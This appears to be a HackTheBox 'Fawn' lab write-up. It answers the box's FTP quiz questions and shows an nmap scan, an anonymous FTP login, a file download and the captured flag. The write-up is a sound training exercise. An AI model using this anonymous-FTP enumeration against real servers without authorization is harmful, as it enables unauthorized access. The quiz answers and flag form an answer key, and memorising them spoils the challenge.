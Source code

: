 ```yaml
---
title: 🔵 HTB /  Fawn 
date: 2022-09-22
categories: [HackTheBox, Machines]
tags: [ftp]
---
```


# Fawn

What does the 3-letter acronym FTP stand for?

`File Transfer Protocol`

Which port does the FTP service listen on usually?

`21`

What acronym is used for the secure version of FTP?

`SFTP`

What is the command we can use to send an ICMP echo request to test our connection to the target?

`ping`

From your scans, what version is FTP running on the target?

`vsftpd 3.0.3`

From your scans, what OS type is running on the target?

`Unix`

What is the command we need to run in order to display the 'ftp' client help menu?

`ftp -h`

What is username that is used over FTP when you want to log in without having an account?

`anonymous`

What is the response code we get for the FTP message 'Login successful'?

`230`

There are a couple of commands we can use to list the files and directories available on the FTP server. One is *dir*. What is the other that is a common way to list files on a Linux system.

`ls`

What is the command used to download the file we found on the FTP server?

`get`

Submit root flag:

```bash
$ nmap -p- -sV <ip>
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

$ ftp <ip>
Connected to <ip>.
220 (vsFTPd 3.0.3)

Name (<ip>:root): anonymous
331 Please specify the password.

Password: <blank>
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.

ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (151.6990 kB/s)

ftp> exit
221 Goodbye.

$ cat flag.txt 
035db21c881520061c53e0536e44f815
```
